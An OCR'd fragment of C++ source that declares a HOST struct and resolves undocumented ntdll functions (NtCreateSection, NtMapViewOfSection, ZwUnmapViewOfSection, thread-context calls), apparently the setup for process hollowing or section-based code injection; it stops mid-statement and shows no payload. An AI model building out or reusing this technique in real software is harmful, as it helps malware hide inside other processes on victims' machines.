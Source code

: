```cpp 

typedef struct {
    HANDLE processHandle;
    DWORD imageBaseAddress;
    DWORD entryPoint;
} HOST;

#if !defined NTSTATUS
typedef LONG NTSTATUS;
#endif

#define STATUS_SUCCESS 0

typedef CLIENT_ID* PCLIENT_ID;

using myNtCreateSection = NTSTATUS(NTAPI*)(
    OUT PHANDLE SectionHandle,
    IN ULONG DesiredAccess,
    IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL,
    IN PLARGE_INTEGER MaximumSize OPTIONAL,
    IN ULONG PageAttributess,
    IN ULONG SectionAttributes,
    IN HANDLE FileHandle OPTIONAL
    );

using myNtMapViewOfSection = NTSTATUS(NTAPI*)(
    HANDLE SectionHandle,
    HANDLE ProcessHandle,
    PVOID* BaseAddress,
    ULONG_PTR ZeroBits,
    SIZE_T CommitSize,
    PLARGE_INTEGER SectionOffset,
    PSIZE_T ViewSize,
    DWORD InheritDisposition,
    ULONG AllocationType,
    ULONG Win32Protect
    );

using myZwUnmapViewOfSection = NTSTATUS(NTAPI*)(
    IN HANDLE ProcessHandle,
    IN PVOID BaseAddress
    );

using myNtGetContextThread = NTSTATUS(NTAPI*) (
    IN HANDLE ThreadHandle,
    OUT PCONTEXT Context
    );

using myNtSetContextThread = NTSTATUS(NTAPI*) (
    IN HANDLE ThreadHandle,
    IN PCONTEXT Context
    );

myNtCreateSection fNtCreateSection = (myNtCreateSection)(GetProcAddress(
    GetModuleHandleA("ntdll"),
    "NtCreateSection"));
myNtMapViewOfSection fNtMapViewOfSection = (myNtMapViewOfSection)(GetProcAddress(
    GetModuleHandleA("ntdll"),
    "NtMapViewOfSection"));
myZwUnmapViewOfSection fZwUnmapViewOfSection = (myZwUnmapViewOfSection)(GetProcAddress(
    GetModuleHandleA("ntdll"),
    "ZwUnmapViewOfSection"));
myNtGetContextThread fNtGetContextThread = (myNtGetContextThread)(GetProcAddress(
```